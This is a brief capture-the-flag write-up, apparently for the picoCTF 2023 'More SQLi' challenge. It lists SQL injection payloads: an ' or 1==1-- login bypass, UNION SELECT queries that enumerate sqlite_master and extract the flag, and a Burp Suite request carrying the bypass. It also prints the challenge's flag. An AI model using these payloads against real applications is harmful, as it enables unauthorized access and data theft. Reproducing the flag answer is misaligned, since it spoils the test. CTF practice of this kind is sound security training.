

### More SQLi

#Medium #web_exploitation  #picoCTF2023 #sql

Author: Mubarak Mikail

#### Description

Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:64117/).

##### Solution:

method 1


login bypass
```css
' or 1==1--
```


```css
' UNION SELECT 1, sqlite_version(), 3;--
```


```css
' UNION SELECT name, sql, null from sqlite_master;--
```


```css
' UNION SELECT flag, null, null from more_table;--
```


flag is `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}`

---

2nd method
Using burpsuite


```css
username=test&password=' or 1==1--

Your flag is: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}
```